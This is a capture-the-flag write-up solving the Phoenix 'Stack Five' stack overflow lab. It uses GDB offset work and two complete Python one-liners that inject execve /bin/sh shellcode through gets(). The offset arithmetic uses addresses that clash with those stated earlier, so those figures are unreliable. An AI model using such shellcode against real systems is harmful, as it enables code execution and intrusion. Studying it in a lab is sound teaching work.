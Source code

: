 ```yaml
---
title: "Exploit Education Phoenix : Stack Five"
date: 2023-07-18T18:54:41+02:00
draft: false
tags: [Exploit Development, Reverse Engineering, Exploit Education]
summary: "Writeup on the sixth Phoenix challenge on the Exploit Education website. In this article, we will solve the Stack-Five challenge."
series: ["Exploit Education Phoenix"]
series_order: 6
---
```


{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
Before you look at the solution to the challenges, I invite you to try it for yourself. You can find all the challenges [here](https://exploit.education/phoenix/).
{{< /alert >}}

## Overview of the challenge

The aim of the Phoenix challenges is to analyse the source code of an executable in order to find and exploit a vulnerability. This first series of challenges concerns the stack. 

The first thing to do is to analyse the executable's source code. Looking for a vulnerability to exploit.

```c
char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

First of all, we notice that unlike the other challenges, this one no longer has a structure. What's more, the `complete_level` function that we need to call to complete the challenge is no longer present. As with the previous challenge, the aim of this challenge is to introduce us to the stack overflow technique: [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP). However, this time instead of executing the `complete_level` function we have to execute shellcode to open a shell.

The next thing we notice is the use of the `gets` function. When we look at the documentation for the function using the command: `man gets`, it explains how the function works. The `gets` function retrieves a string of characters from the standard input (`stdin`), each character is written to a buffer until the function detects an `EOF` or a line feed. Finally, when one of these characters is detected, it is replaced by a `\0` to end the string.

The documentation provides us with new information: this function should no longer be used, as it is sensitive to buffer overflow attacks. The function does not know how many characters it will write to the buffer and cannot be used to limit the number of characters copied. If the number of input characters is greater than the size of the buffer, the `gets` function will continue to write to the next memory location.

Now that we've identified the sensitive parts of the source code, all we have to do is abuse the vulnerability to succeed in the challenge.

## Exploiting the vulnerability

To succeed in this challenge, we need to exploit a buffer overflow vulnerability. This will allow us to change the value of the return address, which will allow us to execute shellcode to open a new shell. To exploit the ROP, we need several parameters that we will use when exploiting the buffer overflow:

* Address of buffer vulnerable to buffer overflow
* Address of the memory location containing the return address
* A x86_64 shellcode that allow us to open a new shell.

Using the buffer address and the memory location containing the return address, we can calculate an offset that will tell us how big our malicious character string should be. Next, we add the address of the start of the buffer to our string of characters in order to rewrite the value of the return address. The shellcode in the buffer will be executed and open the shell.

To find all these parameters, we'll use `GDB`.

### Offset calculation

{{< alert cardColor="#e63946" iconColor="white" textColor="white">}}
GDB sometimes shifts stack addresses slightly because of environment variables. This can cause problems when testing a vulnerability outside GDB.
To fix this you need to remove excess environment variables, you can use the `show env` command to show environment variables and `unset env <var_name>` to remove an environment variable. In my case. I had to remove the variables `LINES` and `COLUMNS`.
{{< /alert >}}

To find the address of the buffer, it is possible to fill the buffer and inspect the stack to find the address. To inspect the stack at the right time, we can place a breakpoint just after the `gets` function is called in the `start_level` function.

```console
$ gdb stack-five
$ disass start_level
$ b *0x00000000004005a1
$ run < <(python -c "print 'A'*100")
$ x/100x $rsp
```

![Breakpoint Hit](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/568ef5f5-7fd6-4f88-92ac-a98648db16bf "Breakpoint hit to see the stack.")

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/1a3b97af-617e-4b3c-9218-b74e983eb0db "Analysis of the stack")


Thanks to the stack inspection, we now know the buffer address: `0x7FFFFFFFE5E0`. In the stack we can also find the address containing the return address. To do this, we disassemble the `main` function, which calls the `start_level` function. Then we retrieve the address of the instruction just after the `start_level` function is called, since this is the address to which the CPU will return after the `ret` instruction in the `start_level` function.

```console
$ gdb stack-five
$ disass main
```

![Disassembly main](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/071dc082-bd6e-4b4c-876a-e28c82eb6c09 "Disassembly of the `main` function")

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/80677305-d3c4-4f86-8937-822bd0742b93 "Analysis of the stack")

We now know that the address of the memory location containing the return address is: `0x7FFFFFFFE668`, since the instruction address is `0x00000000004005c7` and we find this value in the stack.

We can now calculate the offset between the start of the buffer and the location of the return address: `0x7FFFFFFFE648 - 0x7FFFFFFFE5F0 = 0x88 = 136`.

### Constructing the malicious string

We now have all we need to exploit the vulnerability. We can create our malicious string by filling our buffer with a shellcode of 57 bytes that open a shell, then 79 `NOP` to reach the return address and finally adding the address of the buffer.

{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
I didn't create the shellcode myself, you can find it [here](https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html). So credit goes to them for this shellcode..
{{< /alert >}}

To make it easier to create the string, we can use Python.

```console 
python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\xE0\xE5\xFF\xFF\xFF\x7F'" | ./stack-five
```

![Exploit Result](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/0354295e-54f8-4972-a22d-7694d5fdbbf2 "Result of exploiting the vulnerability.")


Finally, we can see that we've opened a new shell, so we've succeeded in our challenge.

## Make it better

There is a more efficient way of avoiding problems with the buffer address: after calling the `gets` function, the buffer address is in the `rax` register, since the `gets` function, if successful, returns the buffer address. So, rather than writing the buffer address to the return address, we can try to find a `jmp rax` instruction and write the address of this instruction to the return address.

To do this I use [Binary Ninja](https://binary.ninja/) and do a search for the heaxdecimal code `FFE0` which corresponds to the `jmp rax` instruction. We get 2 addresses that point to a `jmp rax` instruction, for our test we'll use the address: `0x4004c3`.

![BN Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/a90451a9-82b3-45eb-a796-23d7bbbf8d3b "Binary Ninja Analysis.")

We can now create our new character string.

```console
$ python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\xC3\x04\x40'" | ./stack-five
```

![Exploit Result](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/22e7bcbf-6829-4909-89d3-921289032b9c "Result of exploiting the vulnerability.")
